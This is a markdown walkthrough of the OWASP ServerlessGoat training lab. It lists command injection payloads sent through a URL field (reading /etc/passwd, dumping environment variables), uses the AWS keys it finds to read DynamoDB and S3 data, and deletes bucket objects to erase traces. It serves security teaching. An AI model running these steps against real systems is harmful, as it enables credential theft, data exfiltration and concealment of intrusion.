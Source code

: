 # serverless-goat Walkthrough

*Still to add **INSTALL/REMOVAL** steps*

## Lambda Function API
1. Locate the Endpoint URL under CloudFormation Outputs
2. Navigate to URL in a separate browser  
The endpoint loads an OWASP ServerlessGoat page containing a form consisting of 
      * a single user input textbox and submit button  
      * a list of potential vulnerabilities  
3. Click Submit with the currrent value in place  
This loads a A Poison Tree poem with a URL that seems remarkably close to an s3 bucket address

## Information Gathering
1. Click back on the browser to return to the page 
2. Attempt **Function Data Injection** by adding code to the end of the URL  
*e.g. try adding*`; pwd`
3. Click submit to load the original poem as well as garbeled information  
  *this appears to be vulnerable to __Function Data Injection__*
### Improved injection attempts
1. Click back and change the URL form to a URL that doesn't contain a doc file followed by a snippet of code  
e.g. `https://inject; pwd`
2. Click submit to load the current working directory */var/task*
3. Repeat this tasks with the following bash code add for more information  
**Document everything for later**    
`https://inject; whoami`
   *Current user should be sbx-user0666 or similar*   
`https://inject; ls -la`
    *Lists the current directory (index.js + node_modules subdirectory)*   
`https://inject; cat /etc/passwd`
  *Lists current users*  
`https://inject; cat index.js`
    *Provides code for basic information on how this page functions*   
    Important information to be gathered from this file includes
      * Database 
      * S3 bucket Put permissions
      * node.js package used 
      * Table information 
      * Permissions to curl (potentially) 
      * Output URL 
 4. Explore file contents  
 `https://inject; cat node_modules/.bin/uuid`   
 USAGE: `uuid [ver] [options]` + some encryption math used to generate keys  
 this doesn't seem to be entirely random
 5. Read more javascript
  `https://inject; cat node_modules/node-uuid/package.json`  
  *lists package version*  
  Research into this version of UUID results in a known vulnerability to insecure randomness  
  **TL:DR;** math.random can produce predictable values  
  keys generated and for storage in the s3 bucket may be predicted  
  This could be *very* interesting if it was used to store PII, but it isn't for this circumstance  
 6. Check for unsecured environmental variables  
 `https://inject; env`  
 Results in *very* useful information: 
       * aws_session_token
       * aws_secret_access_key
       * aws_access_key
       * table name
       * s3 bucket name

## Access S3 Bucket & Tables
### S3 Bucket Access with No Credentials
1. Explore the bucket address by opening a new tab, and copying/pasting the URL in the old tab with modifications  
    * URL Modifications for the 2nd tab:  
      - remove the last portion of the URI (e.g. /a3243c-321c-9d21-342f3ebc2a09)  
      - change the s3-website-us-east-1.amazonaws.com to be a correct bucket address (s3.amazonaws.com)
2. Now that the URL modifications have been made, load the s3 bucket  
This site contains information concerning the s3 bucket contents, and each Key listed can be added to the URL as a path  
This site does has a **Broken Authentication** vulnerability because it does not require any authorization for access  
This site also contains the **Insecure Serverless Deployment Configuration** vulerability for the following reasons
      * The s3 bucket URL should not be easy to infer
      * This page should be secured and encrypted instead of being publicly accessible 
Return to the previous tab

### Table Access with AWS CLI
1. Using the information found in the env variables create a user profile 
`aws configure profile --user`  
    * aws_secret_access_key    
    * aws_access_key   
2. Add the aws_session_token to the end of the user profile configuration by editing the *~/.aws/credentials* file  
`vim ~/.aws/credentials`
3. List the database contents  
`aws dynomodb scan --table-name <table-name> --profile user`

### S3 Bucket Access with AWS CLI
1. List Bucket Contents  
`aws s3 ls <s3-bucket> --profile user`
2. Download bucket contents  
`aws s3 sync s3://<s3-bucket> . --profile user`
3. Review downloaded bucket content  
`ls -la`
4. Display commands run via Lambda Function
`cat <key>`
5. Remove all traces of your IP address
`aws s3api delete-object --bucket <s3-bucket> --key <key> --profile`
6. Repeat for each key value found  

